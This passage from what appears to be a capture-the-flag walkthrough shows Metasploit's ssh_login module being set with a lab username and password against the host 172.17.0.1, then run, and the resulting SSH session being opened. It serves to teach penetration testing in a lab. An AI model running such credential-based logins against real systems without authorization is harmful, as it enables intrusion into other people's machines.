 #### Question 9
This will answer question 9
![q9](/assets/AOCD9/q9.png)

### Metasploit SSH login

Now that we know SSH is on open and we have some credientials we can use metasploit to SSH into what I am hoping is the root server

```console
use auxiliary/scanner/ssh/ssh_login
```

the options needing to be set

```console
set username santa

set password p4$$w0rd

set rhost 172.17.0.1
```

once those are all set we can run the exploit.  Once complete we can run the sessions command and see we have a new session with SSH

![sshs](/assets/AOCD9/sshs.png)

Lets interact with that session

```console
sessions -i 3
```

#### Question 10
